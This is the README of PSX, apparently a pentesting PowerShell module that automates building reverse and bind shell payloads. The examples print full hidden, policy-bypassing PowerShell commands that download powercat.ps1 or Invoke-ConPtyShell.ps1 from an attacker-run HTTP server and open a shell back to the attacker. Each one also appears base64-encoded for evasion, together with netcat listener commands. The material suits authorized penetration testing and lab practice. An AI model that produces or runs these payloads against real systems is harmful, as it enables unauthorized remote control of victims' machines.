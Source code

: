 # PSX

## Description
This module helps specifically with PowerShell payloads

You no longer need to manually base64-encode your payloads, host, or tweak them\
With a few quick functions, you can now automate the whole shebang with only a few arguments

## Features
PSX currently provides the following features:
- ConPtyShell automation (including terminal [auto]size specification)
- PowerCat automation
- Base64-(encode|decode) payloads
- Automatic payload-to-clipboard
- Python Simple HTTP server
- [Optional] Automation for netcat listeners ***(X11 only)***

## Available Functions
- `cvsh` -> `Convert-Shell`
- `ib64` -> `Invoke-B64`
- `Invoke-Server`
- `Get-InterfaceAddress`
- `Sync-PSX`
- `Get-PSXAutomation` ***(X11 only)***
- `Set-PSXAutomation` ***(X11 only)***

## Heads up
- This module **WILL NOT**, and **MUST NOT** be, run as `root`; this is by design, and I will\
not be changing this at any point
- Only time elevated privileges are needed is on the first invocation of the module commands\
If you decide to enable automating netcat listeners, you will be prompted for your `sudo` password\
to issue the command `sudo apt-get install xdotool`
- The above command runs without verbosity, but you can see what gets installed by reading through\
`helpers/Init.ps1`
- Automation feature requires:
    - `xdotool` (Initial invocation of the module commands takes care of that)
    - X11 environment (Sorry, Waylanders...For now, maybe? :eyes:)
    - `Convert-Shell ... -Serve`
- When using `conpty` as the selected payload type, caution must be exercised where\
terminal sizing is concerened. That is to say, the _current_ terminal size is chosen\
by default unless otherwise configured. For example, if you convert a `conpty` shell\
in a vertically-split terminal (49 rows, 95 columns), the netcat listener must be run\
in a terminal window of the same size.If you are on an X11 environment, and you have\
automation enabled, it is preferred to run `pwsh` in a non-split tab
- The module is designed to be implicitly imported from the `$USER`'s `$PSModulePath`, so\
please make sure you clone it as per the instructions. Otherwise, you will have to tweak\
the module manifest, and any required path modifications yourself

## Cloning
```sh
kali@kali:~$ git clone https://github.com/X0RW3LL/PSX.git /home/$USER/.local/share/powershell/Modules/PSX
```
## Getting help
```ps
PS kali@kali /home/kali> Get-Help Convert-Shell -Full
```
## Examples

### PowerCat (reverse powershell)
```ps
PS kali@kali /home/kali> cvsh -i wlan1 -t powercat -lp 443 -s

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA


[!] Starting HTTP server on wlan1 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

WARNING: Do not forget to start a netcat listener on port 443

$ nc -lnvp 443

Serving HTTP on 192.168.0.111 port 80 (http://192.168.0.111:80/) ...
```
### PowerCat (bind cmd)
```ps
PS kali@kali /home/kali> cvsh -t powercat -lp 4444 -s -i docker0 -e cmd -b

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:80/powercat.ps1');powercat -l -p 4444 -e cmd"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADcALgAwAC4AMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAA=


[!] Starting HTTP server on docker0 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 172.17.0.1 port 80 (http://172.17.0.1:80/) ...
```
### ConPty (split terminal autosize)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 4455 -s -sp 8080 -i wg0

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:8080/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 4455 -Rows 49 -Cols 95"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwADgAMAAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwAIAAxADAALgA4AC4AMAAuADIAIAA0ADQANQA1ACAALQBSAG8AdwBzACAANAA5ACAALQBDAG8AbABzACAAOQA1AA==


[!] Starting HTTP server on wg0 port 8080
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

WARNING: Do not forget to start a netcat listener on port 4455

$ nc -lnvp 4455 -c 'stty raw -echo; fg; reset'

Serving HTTP on 10.8.0.2 port 8080 (http://10.8.0.2:8080/) ...
```
### ConPty (fullscreen terminal explicit sizing)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 445 -s -i wg0 -rows 51 -cols 191          

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:80/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 445 -Rows 51 -Cols 191"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADgALgAwAC4AMgAgADQANAA1ACAALQBSAG8AdwBzACAANQAxACAALQBDAG8AbABzACAAMQA5ADEA


[!] Starting HTTP server on wg0 port 80
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

WARNING: Do not forget to start a netcat listener on port 445

$ nc -lnvp 445 -c 'stty raw -echo; fg; reset'

Serving HTTP on 10.8.0.2 port 80 (http://10.8.0.2:80/) ...
```
### Base64-decode
```ps
PS kali@kali /home/kali> ib64 -d SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA

[+] Decoded payload:
--------------------
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell

```
